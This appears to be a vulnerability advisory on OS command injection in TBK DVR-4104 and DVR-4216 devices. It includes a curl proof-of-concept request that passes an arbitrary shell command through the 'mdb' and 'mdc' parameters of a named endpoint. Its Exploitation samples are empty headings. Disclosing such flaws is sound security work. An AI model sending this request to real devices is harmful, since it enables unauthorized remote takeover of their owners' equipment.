

# Command Injection Vulnerability in DVR Devices

## Overview

The TBK DVR devices are now found to be vulnerable to a more severe command injection. Unlike CVE-2018-9995, the newly discovered vulnerability enables execution of arbitrary commands on the device's operating system, affecting over 114,000 devices on the Internet.



## **Affected Devices**

- TBK DVR-4104
- TBK DVR-4216

## **CWE**

CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')

## Vulnerability Details

This is achieved through a specially crafted POST request to the `/device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___` endpoint. By manipulating the `mdb` and `mdc` parameters, attackers can execute shell commands, as demonstrated by the PoC.

1. The attacker sends a POST request to the vulnerable DVR device:

   ```bash
   curl "http://<dvr_host>:<port>/device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=<URL_ENCODED_SHELL_COMMAND>" -H "Cookie: uid=1"
   ```

## Exploitation

### Sample 1


### Sample 2


### Sample 3


## **Impact**

The vulnerability allows unauthorized remote attackers to execute arbitrary commands on the device. This could lead to unauthorized access to device data, modification of system configurations, or a complete compromise of the device.

## **Fix Recommendation:**

- Apply available patches and updates from the device manufacturer.
